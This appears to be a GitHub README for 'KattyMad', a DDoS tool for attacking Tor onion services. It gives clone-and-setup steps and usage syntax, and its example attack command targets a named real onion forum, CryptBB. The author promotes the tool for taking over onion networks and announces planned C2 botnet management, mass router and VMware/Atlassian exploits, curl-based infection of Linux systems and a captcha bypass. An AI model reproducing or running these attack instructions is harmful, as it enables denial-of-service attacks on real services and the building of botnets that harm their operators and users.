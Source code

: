 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with a everyshell together.
Also will spawn a very nice WebDashboard (now coded in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy way to spread your commands with just a "DataDispatch" or to infect other linux-based systems with just a curl, and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##

## Dashboard Preview
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/login_katty.png)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/kattymain.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/users.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/web_manager.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/terminal_commander.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/katty_servers.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/autoexploit.png)

## NB.
I wish to remember you all, especially to people who suffer paranoid attacks: this is all opensource code. You can read every fucking single line and see that there's no encoded parameters. So no honeypot, no rat, no fucking bullshit.
See you around.
[Electr0lulz](https://github.com/electr0lulz/)